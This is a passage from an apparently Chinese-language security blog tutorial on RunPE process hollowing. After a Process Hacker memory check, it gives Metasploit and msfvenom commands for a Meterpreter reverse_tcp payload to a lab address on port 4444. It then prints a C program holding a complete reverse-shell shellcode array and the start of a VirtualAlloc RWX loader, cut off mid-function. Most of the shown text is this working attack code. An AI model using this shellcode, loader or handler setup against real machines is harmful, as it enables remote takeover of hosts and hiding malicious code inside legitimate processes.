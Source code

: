 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/3-1.png)

如果需要查看内存数据，可以使用https://www.adlice.com/runpe-hide-code-behind-legit-process/中使用的工具：Process Hacker

参照上图的输出数据，image base为`0x00B90000`

查看新进程`0x00B90000`的数据，已经被成功替换为payload

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/3-2.png)

继续下面的测试，参照源代码，修改payload为执行shellcode格式的Meterpreter

server：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.81.192
exploit
```

Clinet：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.81.192 LPORT=4444 -f c
```

or

```
use windows/shell/reverse_tcp
set LHOST 192.168.81.192
generate -t c
```

选择stage 1(281 bytes)即可

生成shellcode后，HelloWorld工程实现执行shellcode功能的源代码如下：

```
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,LPSTR lpCmdLine,int nCmdShow)
{
    unsigned char shellcode1[] =  
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x51\xc0\x68\x02"
        "\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
        "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
        "\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
        "\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
        "\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3";

    typedef void (__stdcall *CODE) ();    
    PVOID p = NULL;    
    if ((p = VirtualAlloc(NULL, sizeof(shellcode1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)   
```
